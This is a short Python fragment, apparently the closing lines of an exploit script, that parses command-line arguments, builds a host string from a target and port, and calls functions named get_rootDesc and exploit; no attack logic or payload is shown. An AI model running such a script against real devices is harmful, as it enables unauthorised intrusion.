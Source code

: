 ```python

    args = parser.parse_args()

    HOST = HOST.format(args.target, args.port)
    
    get_rootDesc(session)
    exploit(session)
```

